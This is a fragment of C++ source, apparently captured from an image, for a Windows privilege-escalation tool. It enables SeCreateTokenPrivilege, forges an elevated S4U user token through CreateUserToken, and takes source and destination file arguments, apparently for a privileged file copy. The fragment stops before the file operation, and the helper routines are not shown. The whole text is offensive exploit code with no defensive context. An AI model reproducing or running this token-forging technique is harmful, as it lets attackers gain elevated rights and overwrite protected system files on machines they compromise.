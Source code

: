 ```c++
    HANDLE hToken = NULL;
    HANDLE pElevatedToken = NULL;
    HANDLE hThread = NULL;
    LPCWSTR sourceFile = NULL;
    LPCWSTR destFile = NULL;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 's':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                sourceFile = (LPCWSTR)argv[1];
            }
            break;
        case 'd':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                destFile = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }

    // Enable SeCreateTokenPrivilege for the current process token.
    if (!EnableTokenPrivilege(hToken, SE_CREATE_TOKEN_NAME))
    {
        wprintf(L"[-] Failed to enable SeCreateTokenPrivilege for the current process token.\n");
        return 0;
    }

    pElevatedToken = CreateUserToken(hToken);
    if (pElevatedToken == NULL)
    {
        wprintf(L"[-] Failed to create user token.\n");
        return 0;
    }

    if (!DisplayTokenInformation(pElevatedToken))
    {
        wprintf(L"[-] Failed to get S4U token information.\n");
        return 0;
    }

    hThread = GetCurrentThread();

```